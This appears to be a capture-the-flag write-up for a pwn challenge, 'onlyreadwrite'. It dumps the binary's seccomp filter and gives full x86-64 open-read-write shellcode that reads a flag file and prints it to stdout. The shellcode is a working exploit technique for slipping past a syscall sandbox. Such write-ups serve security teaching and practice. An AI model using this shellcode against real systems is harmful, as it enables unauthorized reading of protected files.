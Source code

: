# onlyreadwrite

This challenge reads shellcode from stdin and executes it. The problem is that the syscalls that we can use are limited.

## What syscalls can we use?

To find out what syscalls we can use there is the following command:

```bash
seccomp-tools dump ./onlyreadwrite
```

Some details about the tool can be found [here](https://github.com/david942j/seccomp-tools).

The output of the command is the following:

```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

Then only open, read and write are allowed (and some other syscalls that we don't need).

## The shellcode

Now that we know that we can use just a few syscalls, we can start writing the shellcode.

The idea was to use shellcraft to generate the shellcode for the open-read-write sequence.

```python
shellcode = pwnlib.shellcraft.amd64.linux.open('./flag', 0, 0)
shellcode += pwnlib.shellcraft.amd64.linux.read(FD_READ, 'rsp', 100)
shellcode += pwnlib.shellcraft.amd64.linux.write(FD_WRITE = 1, 'rsp', 100)
```

The problem is that (afaik) there is no way to get the file descriptor from the open syscall and use it as argument for the read.

So i generated the assembly from shellcraft and slightly modified it to get the file descriptor in RDI (where the read syscall expects it).

```c
; push './flag' on the stack
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f2e
xor [rsp], rax

; call open(RDI -> './flag', 0, 0)
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 */
push SYS_open /* 2 */
pop rax /* -> 2 */
syscall

; call read(RDI -> RAX = fd of './flag', RSI = 'rsp', RDX = 0x64)
push rax
xor eax, eax /* SYS_read */
pop rdi ; -> fd  returned by open
push 0x64
pop rdx
mov rsi, rsp
syscall

; call write(fd=1 (stdout), RSI = 'rsp', RDX =0x64)
push 1
pop rdi
push 0x64
pop rdx
mov rsi, rsp
push SYS_write ; 1
pop rax
syscall
```

Basically it is opening the file, reading it on the stack and then writing it on stdout.

The complete exploit is in [script.py](script.py).
